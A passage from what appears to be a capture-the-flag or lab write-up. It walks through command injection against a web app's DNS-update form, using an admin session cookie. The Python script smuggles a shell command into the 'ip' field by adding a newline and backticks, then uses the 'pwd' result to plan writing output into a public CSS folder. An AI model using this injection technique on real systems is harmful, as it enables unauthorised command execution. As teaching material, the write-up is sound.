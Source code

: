 ```python
def inject_command(cookie):

    admin_cookie = { 'rack.session' : cookie }

    payload = { 'id'   : '1'
              , 'name' : 'webmail'
              , 'ip'   : '192.168.3.10\n`sleep 5`'
              , 'ttl'  : '600'
              }

    resp = requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    print(resp.text)

def help():
    print(__doc__, file=sys.stderr)
    exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()

    with open(sys.argv[1]) as file:
        cookie = file.read().rstrip()

        inject_command(cookie)

```

The server delayed in our response. Let's parameterize the command 
in our script and try to get the results of `pwd`.

Running our script with the `pwd` command resulted in a this response:

```html
<div class="alert-message error">
incorrect section name: &#x2F;var&#x2F;www
syntax error
</div>
```

So now we know we're in the `/var/www/` folder in the server. However when we 
do `ls` or anything wil multile lines of output we're gonna be limited 
to seeing only the first thing. So let's try to output the results of the 
command into a publicly reachable file then pull down that file and print it. 

First, we need to find out where the public files are stored. We know we can 
pull down the style sheets no problem, so we should output the results into the same folder. 

![css-file](/assets/images/posts/rcci/css-files.png)

